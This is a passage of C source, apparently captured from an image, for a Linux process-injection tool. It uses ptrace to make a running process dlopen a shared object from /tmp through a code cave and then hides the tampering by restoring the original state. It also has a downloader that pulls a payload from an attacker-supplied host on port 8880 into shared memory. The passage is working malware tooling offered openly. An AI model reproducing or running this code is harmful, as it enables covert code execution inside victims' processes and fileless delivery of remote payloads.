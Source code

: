 ```c
    regs.rsi = 2;
    ptrace(PTRACE_SETREGS, pid, NULL, &regs);
    fprintf(stderr, "[+] Remote process registers fixed!\n");   
    
    // At this point everything is set to execute a dlopen("/tmp/inject.so, RTLD_LAZY) inside the remote process
    fprintf(stderr, "[+] Resuming the execution...\n");
    ptrace(PTRACE_CONT, pid, NULL, NULL);

    waitpid(pid, &waitpidstatus, WUNTRACED);
    ptrace(PTRACE_GETREGS, pid, NULL, &regs);
        if (regs.rax == 0) {
            fprintf(stderr, "[-] Error: dlopen() call failed!\n");
        } else {
            fprintf(stderr, "[+] It worked! Shared Object loaded at %p\n", regs.rax);
        }

        // Now is time to restore everything to his original status :)
        ptraceWrite(pid, code_cave_address, oldcode, CAVE_SIZE);
        ptrace(PTRACE_SETREGS, pid, NULL, &oldregs);
        ptrace(PTRACE_DETACH, pid, NULL, NULL);
        fprintf(stderr, "[+] Restore original status...\n");

    free(oldcode);
    fprintf(stderr, "[+] Finished!\n");
}

// Downloader
void download(void) {
    char recvBuff[2048];
    int sockfd, fd, size;
    struct sockaddr_in serv_addr;
    
    memset(recvBuff, 0, sizeof(recvBuff));

    if ((sockfd = socket(AF_INET, SOCK_STREAM,0)) < 0) {
        fprintf(stderr, "[-] Error: socket could not be created\n");
        exit(EXIT_FAILURE);
    }
    
    memset(&serv_addr, 0, sizeof(serv_addr));
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_port = htons(8880);
        
    if (inet_pton(AF_INET, getenv("DOUBLEC"), &serv_addr.sin_addr) <= 0) {
        fprintf(stderr, "[-] Error: address is invalid\n");
        exit(EXIT_FAILURE);
    }

    if (connect(sockfd, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
        fprintf(stderr, "[-] Error: connect failed\n");
        exit(EXIT_FAILURE);
    }

    fd = shm_open(SHM_NAME, O_RDWR | O_CREAT, S_IRWXU);
    for(;;) {
        if ((size = read(sockfd, recvBuff, 2048)) <= 0) {
            break;
        }
        write(fd, recvBuff, size);
    }
    
    close(sockfd);
```